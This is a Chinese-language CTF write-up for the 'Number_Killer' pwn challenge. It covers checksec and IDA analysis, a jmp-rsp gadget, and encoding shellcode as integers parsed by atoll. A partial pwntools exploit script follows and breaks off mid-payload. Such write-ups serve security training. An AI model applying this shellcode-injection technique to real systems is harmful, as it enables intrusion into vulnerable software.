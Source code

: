 ### Number_Killer

>描述
>
>看起来人畜无害的一些整数也能秒我？(吃惊)
>
>nc 47.103.214.163 20001
>
>题目地址 链接:https://pan.baidu.com/s/1Lpu5XWSz-_cloWBtWJ5Fzg  密码:cpdj
>
>基准分数 100
>
>当前分数 100
>
>完成人数 77

例行检查

![checksec](https://tva1.sinaimg.cn/large/0082zybpgy1gbxhvqviflj30x608g0vr.jpg)

发现并没有什么保护

用ida64打开

![ida](https://tva1.sinaimg.cn/large/0082zybpgy1gbxhx70tsaj31580fmwi7.jpg)

进入readll函数

![ida](https://tva1.sinaimg.cn/large/0082zybpgy1gbxhximboqj31580hu0x0.jpg)

atoll函数可以将字符转成long long int，程序没用nx保护而且可以写入很多字符，推测应该要用shellcode

而且函数中有一个gift可以直接跳转到rsp，只要让程序返回的时候rsp指向shellcode起始地址，就可以执行shellcode

![gdb](https://tva1.sinaimg.cn/large/0082zybpgy1gbxi0vjxf9j315a0amaff.jpg)

然而由于atoll函数只会把数字存入内存，所以想到可能需要shellcode编码

py了一下**@幼稚园**学长以后得到学长的hint，内存的本质都是机械码，所以可以直接将机械码传入

最菜的人只能用最笨的方法

![python](https://tva1.sinaimg.cn/large/0082zybpgy1gbxi3a8el0j3158046tb9.jpg)

但是有几段数字太大超过了long long int范围，py了一下出题人**@cosmos**又得到hint可以用负数代替

可以写exp了

```python
#!/usr/bin/env python2  

# -*- coding: utf-8 -*-  

from pwn import *

p = process('./num')
#p = remote("47.103.214.163",  20001)

gdb.attach(p,'b *0x4006DA')

jmp_rsp = '4196237'  #0x40078D

over = '51539607552' #0xc00000000

p.recvuntil('numbers!\n')


payload = '1'+p8(0xa)+'2'+p8(0xa)+'3'+p8(0xa)+'4'+p8(0xa)+'5'+p8(0xa)+'6'+p8(0xa)
```